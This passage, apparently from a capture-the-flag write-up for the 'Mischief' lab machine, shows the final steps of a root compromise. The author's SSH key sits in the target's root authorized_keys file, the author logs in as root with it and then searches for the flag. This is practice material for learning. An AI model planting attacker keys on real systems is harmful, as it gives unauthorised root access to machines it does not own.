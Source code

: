     /mnt/root/root/.ssh # cat authorized_keys
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDl5LEqq2Z0dsFtwVRAhYfs3VlLEf7bHRLMcMFt9ND+JezGfUSRciY6jx0Z7V8N5G4CQIPy1V1N+6RAHsR003u8Ygu4MVCVhwEOMe5utYa5SWDqFbf1i8LFKlAgPAT5bGu9lm9wx/isQTnB62hOhOaN+x/IBKpfuavietZG5F23imeTEcLuVnbRS59RTSkhDky21Cn7OmmJgDPFy473hkkAt4WUJemM6QDkneS8siIgkeMBpiB68Blf17XQ9MNAgawCyEzX2QcUiqJ5tdn3Ekcdfyy3qRuJIpNEfMZ6LdGYjfEZNGYNnIKQmHPfyjqw02deI3Zo2nQ1DeboJEZt+ngD root@kali



Now ssh in as root:



    root@kali# ssh -i ~/id_root-mischief root@10.10.10.92
    Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

      System information as of Wed Jul 11 20:43:37 UTC 2018

      System load:  0.0                Processes:             154
      Usage of /:   28.5% of 15.68GB   Users logged in:       1
      Memory usage: 54%                IP address for ens33:  10.10.10.92
      Swap usage:   0%                 IP address for lxdbr0: 10.47.91.1


     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch

    0 packages can be updated.
    0 updates are security updates.

    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


    Last login: Wed Jul 11 20:37:53 2018 from 10.10.15.26
    root@Mischief:~# id
    uid=0(root) gid=0(root) groups=0(root)



## Find root.txt

The root.txt file in the typically location is a bit of a troll:



    root@Mischief:~# cat root.txt
    The flag is not here, get a shell to find it!



I can find the actual flag with a find command:



    root@Mischief:~# find / -name root.txt
    /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
    /root/root.txt
